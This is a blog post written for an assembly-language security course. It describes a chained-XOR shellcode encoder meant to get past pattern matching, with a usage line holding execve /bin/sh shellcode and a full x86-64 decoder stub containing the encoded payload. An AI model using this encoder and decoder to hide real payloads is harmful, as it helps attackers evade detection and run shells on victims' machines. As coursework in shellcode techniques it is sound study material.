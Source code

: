 # Custom Encoder

This assignment was about implementing a custom encoder that encodes a shellcode so that it bypasses pattern matching and keeps the reverse engineers busy for a while.

Many encoders already exist: rotencoder, caesar encoder or xor encoder to name a few.
I decided to implement an encoder that that takes a one byte seed as an argument and xors the first byte with this seed. The result of this operation is then used to xor the next byte and so on.

```
            +-------------+--------------+
            |    byte 1   |    byte 2    |
            +------+------+------+-------+
                   |             |
                   v             v
      Seed      +--+--+       +--+--+
+-------------->+ XOR +-------> XOR +---------->
                +--+--+       +--+--+
                   |             |
                   |             |
            +------v------+------v-------+
            |  Encoded 1  |  Encoded 2   |
            +-------------+--------------+
```

The encoder is implemented in python and can be used like this:
```
python2 Encoder.py -sh "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" -k "A"
```

-sh is the original shellcode
-k is the seed

It produces a .asm file that contains the decoding routine and then executes the decoded shellcode.

## Decoder

```
KEY equ 'A'
LEN equ 32
global _start:
section .text

_start:
    jmp _get_pointer ; use call pop technique to get a pointer to the encoded shellcode

_decode:
    pop rdi ; rdi points to encodedshellcode

    push KEY
    pop rsi ; rsi contains the key
    xor rax, rax
    xor rcx, rcx
    cdq ; rax, rcx and rdx are 0

_loop: ; loop over the encoded shellcode and undo the encoding

    cmp rcx, LEN
    jg EncodedShellcode ; if this branch is taken the decoding is done and the shellcode can be executed

    ; decode the respective byte and save the result
    mov al, [rdi]
    xor al, sil
    mov sil, [rdi]
    mov [rdi], al


    inc rdi
    inc rcx
    jmp _loop

_get_pointer:
    call _decode
    EncodedShellcode: db 0x9,0x38,0xf8,0xa8,0xe0,0x5b,0x74,0x16,0x7f,0x11,0x3e,0x11,0x62,0xa,0x59,0x11,0x98,0x7f,0x2f,0x67,0xee,0xc,0x5b,0x13,0x9a,0x7c,0x34,0xb7,0x77,0x4c,0x43,0x46
```
The EncodedShellcode in the .asm file contains instructions that do not make any sense at all as they were encoded with this encoding scheme.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
